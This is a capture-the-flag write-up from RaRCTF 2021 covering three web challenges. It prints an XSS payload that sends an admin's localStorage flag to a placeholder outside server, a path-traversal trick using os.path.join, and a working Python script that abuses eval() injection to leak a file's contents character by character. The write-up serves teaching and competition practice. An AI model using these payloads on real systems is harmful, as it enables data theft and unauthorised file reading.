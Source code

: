 ```yaml
---
title: "RaRCTF2021: Some simpler web probz"
date: 2021-08-09T13:49:21-07:00
draft: false
comments: false
toc: true
images:
categories:
  - writeups
tags: 
  - writeups
  - xss
  - command-injection
  - web
---
```


## Fancy Button Generator // FBG

A simple xss challenge with the slightest of twists: instead of stealing admin cookies, you're stealing admin's localstorage values. This was possible because the admin, which was a puppetteer chrome browser, was operating in no-sandbox mode. 

Insert as your payload:
```
title: eh
link: javascript:fetch('your.server?fleg='%2B(window.localStorage.getItem("flag")));

```

And report to admin. Careful with the wait times...

NOTE: I first-blooded this challenge before certain measures were implemented. There were some issues with FBG throughout the competition that involved the organizers making amendments and introducing a pow to help with the stability of the infrastructure. I'm not aware of how the solution would have looked with the accompanying pow, unfortunately. 

flag: `rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`

## Secure Uploader 

In the provided source, observe this piece of code: 

```py
@app.route('/file/<id>')
def file(id):
    conn = db()
    cur = conn.cursor()
    cur.execute("select path from files where id=?", (id,))
    res = cur.fetchone()
    if res is None:
        return "File not found", 404
    with open(os.path.join("uploads/", res[0]), "r") as f:
        return (os.path.join("uploads/", res[0]))
```

python's `os.path.join` is a unique thing: its purpose is to concat the provided parameters, appending one after the other with a `/` character in between. As an example, `os.path.join('foo','bar')` would produce `foo/bar`. However, specify an absolute filepath as a parameter, and everything before that string will be erased. So, `os.path.join('foo', '/bar')` would produce just `/bar`. We can use this knowledge to provide to the challenge a filename such as `//flag` which will resolve to retrieve the flag kept in the root directory of the docker container hosting the challenge. 

flag: `rarctf{4lw4y5_r34d_th3_d0c5_pr0p3rly!-71ed16}`

## MAAS 1 // Calculator
The first part of "Microservices as a Service" was a challenge that involved improper use of the python function `eval()`. For those unaware, `eval()` takes as a parameter a string representing code. For example, `eval('print("hello")')` would return `hello` in your console. Obviously, not a very _safe_ function to use.

In the provided source, we see some very interesting code in `arithmetic/app.py`:

```python
@app.route('/arithmetic', methods=["POST"])
def arithmetic():
    if request.form.get('add'):
        r = requests.get(f'http://arithmetic:3000/add?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('sub'):
        r = requests.get(f'http://arithmetic:3000/sub?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('div'):
        r = requests.get(f'http://arithmetic:3000/div?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('mul'):
        r = requests.get(f'http://arithmetic:3000/mul?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    result = r.json()
    print(result)
    res = result.get('result')
    if not res:
        return str(result.get('error'))
    try:
        res_type = type(eval(res))
        if res_type is int or res_type is float:
            return str(res)
        else:
            return "Result is not a number"
    except NameError:
        return "Result is invalid"
```

This would run when you perform any arithmetic action using the calculator in the website. When using the calculator, if you try to do an addition formula like "1+1", the returned result isn't 2, but "11". Why is that?

The program passes your code into `eval()` (in the `try` statement), but the result of that `eval()` isn't returned anywhere. If the eval'd result was an integer, then the _string_ that was passed as a parameter to `eval()` would be returned, hence why "11" is returned as the result of "1+1". However, `eval()` is called nonetheless, and we can use this to our advantage.

First and foremost, if the result of the eval was a number (int or float), then the string is returned. Else, "Result is not a number" or "Result is invalid" is returned. We could use this as a boolean condition with the following string: 

```
eval("1 if (open('../flag.txt','r').read(-1).startswith('rarctf{')) else 'false'")
``` 

We can instead put this as our "arithmetic" equation. Since the POST request made to the endpoint requires 2 params to be operated on, "n1" and "n2", split this statement into 2 arbitrary halves and put 1 half into the "n1" param, and the other into the "n2" param.

What this does is it calls `eval()` once more, but in this 2nd call we have more freedom to stipulate what can be evaluated. The param to the inner `eval()` is just an if statement that returns the integer `1` if `(open('../flag.txt','r').read(-1).startswith('rarctf{'))` returns the boolean value true, or returns the string `'false'` if the statement returns the boolean value false. 

Therefore, if the contents of `flag.txt` start with the prefix "rarctf{", then the `eval()` functions will return 1, and the maas program would return the whole string as a result. If it doesn't start with that prefix, then the `eval()` functions would return the string 'false' and the if statement that checks the `res_type` would not return our string. From here, we can just continue to add characters to the prefix to brute-force the value of the flag that way: if we get back our string, then the character we guessed is in the flag. If we get back either "Result is not a number" or "Result is invalid" (or just if the response text has the keyword "Result"), then the character we guessed is not in the flag.

```py
import requests

url = "https://maas.rars.win/calculator"

alphabet = 'abcdefghijklmnopqrstuvwxyz1234567890_-{}'

prefix = 'rarctf{'

#I just chose 40 arbitrarily. If the flag was longer, I would have increased the range.
for index in range(0, 40):
    for c in alphabet:
        # It uses the python builtin function open to retrieve the contents of /flag.txt, then reads it
        # if the contents of said flag.txt contain the prefix (and we add the current character after the prefix), it returns true
        req = "eval(\"1 if (open('../flag.txt','r').read(-1).startswith('" + prefix + c + "')) else 'false'\""
        # I split the string between the n1 and n2 params arbitrarily. It doesnt matter how you split them.
        data = {"mode": "arithmetic", "n1": req, "add": "+", "n2": ")"}
        resp = requests.post(url, data)
        # If we dont find the word "Result" in the response to our request above, then that means the character we guessed is in the flag!
        if (resp.text.find("Result") == -1) and (resp.status_code != 500):
            # Add the correctly guessed character to the string amd move on to the next char
            prefix += c
            print(prefix)
            continue
```

flag: `rarctf{0v3rk1ll_4s_4_s3rv1c3_3fca0faa}`

part 2: coming soon :)

**Vie**